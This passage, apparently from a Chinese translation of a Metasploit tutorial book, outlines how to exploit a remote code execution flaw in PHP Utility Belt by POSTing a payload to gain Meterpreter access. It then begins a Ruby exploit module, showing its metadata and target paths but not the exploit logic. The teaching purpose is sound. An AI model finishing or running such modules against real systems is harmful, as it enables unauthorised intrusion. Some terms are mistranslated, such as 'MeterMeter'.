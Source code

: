 `GET`方法将从指定资源请求数据或网页，并使用它浏览网页。另一方面，`POST`命令将表单或特定值中的数据发送到资源进行进一步处理。现在，当编写基于 web 的漏洞利用时，这很方便。HTTP 库简化了将特定查询或数据发布到指定页面的过程。

让我们看看我们需要在这个漏洞中执行什么：

1.  创建一个`POST`请求
2.  使用`CODE`参数将有效负载发送到易受攻击的应用程序
3.  获取对目标的 MeterMeter 访问权限
4.  执行一些后期开发功能

我们清楚我们需要完成的任务。让我们再做一步，生成一个兼容的匹配漏洞，并确认它正在工作。

# 将 HTTP 漏洞导入 Metasploit

让我们编写针对 Metasploit 中 PHP 实用程序带远程代码执行漏洞的漏洞攻击，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 

  include Msf::Exploit::Remote::HttpClient 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PHP Utility Belt Remote Code Execution', 
      'Description'    => %q{ 
         This module exploits a remote code execution vulnerability in PHP Utility Belt 
      }, 
      'Author'         => 
        [ 
          'Nipun Jaswal', 
        ], 
      'DisclosureDate' => 'May 16 2015', 
      'Platform'       => 'php', 
      'Payload'        => 
        { 
          'Space'       => 2000, 
          'DisableNops' => true 
        }, 
      'Targets'        => 
        [ 
          ['PHP Utility Belt', {}] 
        ], 
      'DefaultTarget'  => 0 
    )) 

    register_options( 
      [ 
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']), 
   OptString.new('CHECKURI',[false,'Checking Purpose','/php-utility-belt/info.php']), 
      ]) 
  end 
```
